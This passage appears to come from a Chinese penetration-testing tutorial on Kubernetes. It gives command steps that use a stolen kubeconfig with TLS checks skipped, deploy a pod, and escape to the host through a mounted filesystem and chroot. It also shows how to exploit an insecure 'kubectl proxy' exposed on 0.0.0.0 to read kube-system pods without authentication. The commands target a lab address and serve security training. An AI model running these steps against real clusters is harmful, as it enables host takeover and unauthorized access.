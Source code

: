 1、将获取到的config复制  
  
2、安装kubectl使用config连接  
  
安装：https://kubernetes.io/zh-cn/docs/tasks/tools/install-kubectl-linux  
  
连接：kubectl -s https://192.168.139.130:6443/ --kubeconfig=config --insecure-skip-tls-verify=true get nodes  
  
3、上传利用test.yaml创建pod  
  
kubectl apply -f test.yaml -n default --kubeconfig=config  
  
4、连接pod后进行容器挂载逃逸  
  
kubectl exec -it xiaodisec bash -n default --kubeconfig=config  
  
cd /mnt  
  
chroot . bash  
  
### 4.1.7  Kubectl Proxy不安全配置  
  
当运维人员需要某个环境暴露端口或者IP时，会用到Kubectl Proxy  
  
使用kubectl proxy命令就可以使API server监听在本地的xxxx端口上  
  
  
环境搭建：  
  
kubectl --insecure-skip-tls-verify proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=8009  
  
  
*复现利用：  
  
*类似某个不需认证的服务应用只能本地访问被代理出去后形成了外部攻击入口点。  
  
*找到暴露入口点，根据类型选择合适方案  
  
kubectl -s http://192.168.139.130:8009 get pods -n kube-system  
  
  
  
  
